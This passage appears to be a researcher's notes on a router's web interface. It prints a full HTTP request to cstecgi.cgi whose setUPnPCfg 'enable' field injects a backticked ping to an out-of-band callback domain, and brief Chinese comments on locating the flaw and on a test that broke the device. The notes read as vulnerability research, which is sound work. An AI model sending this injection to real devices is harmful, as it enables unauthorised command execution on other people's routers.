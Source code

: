



```
POST /cgi-bin/cstecgi.cgi?token=223A30BC129975D7 HTTP/1.1
Host: 182.155.104.240
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 69
Origin: http://182.155.104.240
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://182.155.104.240/advance/upnp.html?token=223A30BC129975D7
Priority: u=1

{"enable":"`ping -c 2 nozomizo.poc.wu09u1ut.eyes.sh`","topicurl":"setUPnPCfg"}
```



但是真找不到为啥啊。。。

哦哦哦！ 在`sub_414B14`

![image-20241029205545660](./X6000R/images/image-20241029205545660.png)





## `advance/remote.html` (❌)

千万打不得！！！

。。。nm，关掉直接网页都没了。。。

得重新找一个


